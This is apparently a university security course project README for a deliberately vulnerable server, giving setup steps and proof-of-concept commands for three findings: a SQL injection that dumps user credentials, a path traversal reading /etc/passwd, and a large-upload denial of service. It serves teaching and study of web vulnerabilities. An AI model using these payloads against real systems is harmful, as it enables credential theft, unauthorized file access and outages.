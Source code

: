 # csci4271-proj2
This project demonstrates vulnerabilities in a server application (bcpwm-server) running on port 443. The instructions guide users on setting up the server, interacting with its database, and identifying three security vulnerabilities. Each finding includes a proof of concept exploit and its expected outcome.

# Program Description
bcpwm-server is a multi-functional server application designed to support user registration, rule creation, and file management via various HTTP routes. The server uses an SQLite database to store user and rule data, and it interacts with the file system for file operations. However, due to insufficient input validation and insecure programming practices, the server contains vulnerabilities that attackers can exploit to:

1. Perform SQL Injection to extract sensitive data.
2. Execute Path Traversal attacks to access unauthorized files.
3. Cause a Denial of Service (DoS) by uploading excessively large files.

- Let url be the path to access 443
- "enter" means putting the string in the search bar in web browser
- lines without "enter" is input in terminal

Running the program:
- git clone...
- ./install.sh
- make
- sudo ./bcpwm-server
- -> Change to another terminal, navigate to the same directory

Setting up the database
- Adding a user with hexmail = "1", hexpass = "2":
- enter "<url>/init_client/31/32"
- Confirm user added:
- enter "<url>/confirm-client/31/32/<token>" (the token is from the program running sudo)
- Adding a rule
- enter "<url>/post-rule/init/admin/1"

# Finding 1: Inject SQL to extract all user credentials
- Expected result: List of all users and passwords
- payload=$(echo "' UNION SELECT user, password FROM user_pw_table;--" | xxd -p)
- curl -k "<url>/init_client/${payload}/31"

# Finding 2: Inject '../' into the file path parameter to read unauthorized files
- Expected result: Contents of /etc/passwd
- payload=$(echo "../../etc/passwd" | xxd -p)
- enter "<url>/get_rule/${payload}"

# Finding 3: Generate a large file (1GB) and upload it
- Expected result: Server becomes unresponsive or logs indicate resource exhaustion.
- dd if=/dev/zero of=largefile.txt bs=1M count=1024
- curl -X POST -F "file=@largefile.txt" -k "<url>/post-rule/init/validsite/validuser"
